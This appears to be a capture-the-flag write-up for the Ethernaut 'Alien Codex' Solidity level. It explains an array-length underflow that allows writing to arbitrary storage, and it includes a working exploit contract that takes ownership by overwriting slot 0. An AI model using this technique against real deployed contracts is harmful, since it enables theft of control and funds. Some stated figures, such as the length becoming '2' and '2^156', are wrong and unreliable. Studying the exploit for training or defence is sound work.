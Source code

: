# Level 19 : Alien Codex

We can see in the above contract that there's no `owner` variable. This is because it is coming from the inherited `Ownable` contract. If we look into the `Ownable.sol`, we can see that the variable `address private _owner;` is defined in the slot 0 of the contract.

The key point here is to understand how dynamic arrays work : 

- If dynamic array starts at a slot position p, then the slot p will contain the total number of elements stored in the array.
- The actual array data will be stored at `keccack256(p)`
    - At keccak256(1) ⇒ codex[0], keccak256(2) ⇒ codex[1] etc.. until 2^256-1⇒codex[2^156-1-uint(keccak256(1))] **and after that we have slot 0 ⇒ codex[2^256 -1-uint(keccack256(1))+1]**

To finish the level we need to do the following steps:

1. Call the **`make_contact()`** function so that the **`contact`** is set to **`true`**. This will allow us to go through the **`contacted()`** modifier.
2. Call the **`retract()`** function. This will decrease the **`codex.length`** by 1. And what happens when you subtract 1 from 0 (initial array position)? You get an underflow. This will change the **`codex.length`** to be 2 which is also the total storage capacity of the contract. This will now allow us access to any variables stored in the contract.
3. Call the **`revise()`** function to access the array at slot 0 and update the value of the **`_owner`** with our own address. The index **`i`** can be calculated as shown in the slot table above.
    1. `uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;` 
        
        ⇒35707666377435648211887908874984608119992236509074197713628505308453184860938
        
    2. Argument of revise function is in bytes32 so : `bytes32 myAddress = bytes32(uint256(uint160(tx.origin)));`
        
        ⇒ 0x000000000000000000000000c749870fa970eaec3ad0d556800078c61b603ed6
        

## **Takeaways**

**Never allow modification of the array length of a dynamic array as they can overwrite the whole contract's storage using overflows and underflows.**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract level19Hack{
    uint public index;
    bytes32 public myAddress;
    AlienCodex toHack = AlienCodex(0xA88a73C92969aeaa0f237fBAa68cb3e48cEd0268);
    function level19() public{
        index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;
        myAddress = bytes32(uint256(uint160(address(0xC749870fa970EaeC3Ad0D556800078C61b603eD6))));
        toHack.make_contact();
        toHack.retract();
        toHack.revise(index,myAddress);
    }
}

contract AlienCodex { // remove the ownable.sol for facility
  .....
}
```